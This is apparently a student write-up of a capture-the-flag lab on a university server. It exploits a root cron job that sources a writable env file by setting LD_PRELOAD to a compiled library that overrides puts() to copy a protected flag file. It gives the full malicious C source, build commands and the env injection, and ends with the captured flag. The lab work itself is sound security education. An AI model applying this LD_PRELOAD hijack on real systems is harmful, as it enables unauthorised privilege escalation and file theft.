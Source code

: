 # Linux Environment 

## Exploration

Upon accessing the Linux server in the port `4006` of `ctf-fsi.fe.up.pt`, we were quick to search for potencial clues. Inside the directory "/home/flag_reader", where we started, the following files were found:

![img.png](./images/env_start_files.png)

While checking their content, we immediately found our first clue in the file "admin_note.txt":

![img.png](images/admin_note.png)

We could tell "/tmp" would have some clues.
Checking "main.c", we found the location of our goal, the flag. It would be found in the file "/flags/flag.txt":

![img.png](images/env_mainc.png)

We also found "reader", which is the executable file for "main.c", and "my_script.sh", which adds whatever is in the `env` file to the **environment variables** and executes `reader`:

![img.png](images/my_script.png)

After attempting to execute both "reader" and "my_script.sh", we kept getting the following message:

![img.png](images/reader_output.png)

We found it weird that the file did not exist despite being included in "main.c". After trying to access "/flags", we were denied permission to access it. It had become clear we would **need to have more permissions** in order to access the flag. 

After exploring "/tmp", all we can find there is the `env` file "my_script.sh" refers to. Unlike in "/home/flag_reader", where we **could not create or modify files**, it turned out we could do so in "/tmp", including to the `env` file! 

The last clue was found using the `top` command, which displays the running processes. By using it, we could see that a `cron` process was running, **with 'root' permissions**:

![img.png](images/env_top.png)

After reviewing the exercice's description, we realised this `cron` was running "my_script.sh" **periodically**.
We decided to exploit the environment variable `LD_PRELOAD`, which, as we studied, loads the associated libraries before any others.

## Execution 

To get the most out of this vulnerability, we mostly worked inside "/tmp". 
We started by creating a C file with "malicious" code, meant to write the flag on another file, using the following commands:

```sh
touch lib.c
echo "#include <stdio.h>
#include <stdlib.h>
int puts (const char *str)
{
    system(\"/usr/bin/cat /flags/flag.txt > /tmp/flag.txt\");
    return 0;
}" > /tmp/lib.c
```
We replaced the function `puts()`, since the program "reader" uses it.

Afterwards, we created a shared library in the same folder, from this C file:

```sh
gcc -c -o lib.o lib.c
gcc -shared -o lib.so lib.o
```

Lastly, all we had to do was set the environment variable:

```sh
echo LD_PRELOAD=/tmp/lib.so > env
```

With this done, all we had to do was wait until the `cron` ran. And a few moments later, it did.

![img.png](images/env_got_flag.png)

We found the flag `flag{5ff2b5ce4a3db5ee5883cfb75e994b99}`!
